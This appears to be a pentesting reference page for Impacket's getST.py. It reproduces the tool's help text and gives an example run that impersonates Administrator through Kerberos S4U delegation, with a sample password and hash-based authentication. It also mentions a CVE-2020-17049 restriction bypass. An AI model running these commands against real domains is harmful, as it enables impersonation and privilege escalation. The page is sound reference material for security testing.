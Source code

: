 ```yaml
---
title : "GetST.py"
# pre : ' '
description : "Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache."
date : 2022-02-14T12:21:48+01:00
# hidden : true
# draft : true
weight : 40
# tags : ['']
---
```


---

Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache.

## Installation

Install [Impacket]({{< ref "../impacket" >}}).

## Usage

```plain
getST.py [-h] [-spn SPN] [-altservice ALTSERVICE] [-impersonate IMPERSONATE] [-additional-ticket ticket.ccache] [-ts] [-debug] [-u2u] [-self] [-force-forwardable] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                [-dc-ip ip address]
                identity
```

## Flags

```plain
Impacket v0.12.0.dev1+20240718.115833.4e0e3174 - Copyright 2023 Fortra

positional arguments:
  identity              [domain/]username[:password]

options:
  -h, --help            show this help message and exit
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -altservice ALTSERVICE
                        New sname/SPN to set in the ticket
  -impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -additional-ticket ticket.ccache
                        include a forwardable service ticket in a S4U2Proxy request for RBCD + KCD Kerberos only
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -u2u                  Request User-to-User ticket
  -self                 Only do S4U2self, no S4U2proxy
  -force-forwardable    Force the service ticket obtained through S4U2Self to be forwardable. For best results, the -hashes and -aesKey values for the specified -identity should be provided. This allows impresonation of protected
                        users and bypass of "Kerberos-only" constrained delegation restrictions. See CVE-2020-17049

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If omitted it use the domain part (FQDN) specified in the target parameter

Examples: 
        ./getST.py -spn cifs/contoso-dc -hashes lm:nt contoso.com/user

        it will use the lm:nt hashes for authentication. If you don't specify them, a password will be asked
```

## Examples

[Using tickets](https://swarm.ptsecurity.com/kerberoasting-without-spns/).

To use tickets install the `klist` tool with `sudo apt install krb5-user`

```plain
$ getST.py -impersonate Administrator -spn 'host/SRV01.offsec.NL' offsec.NL/janedo:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

## URL List

- [Github.com - getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py)

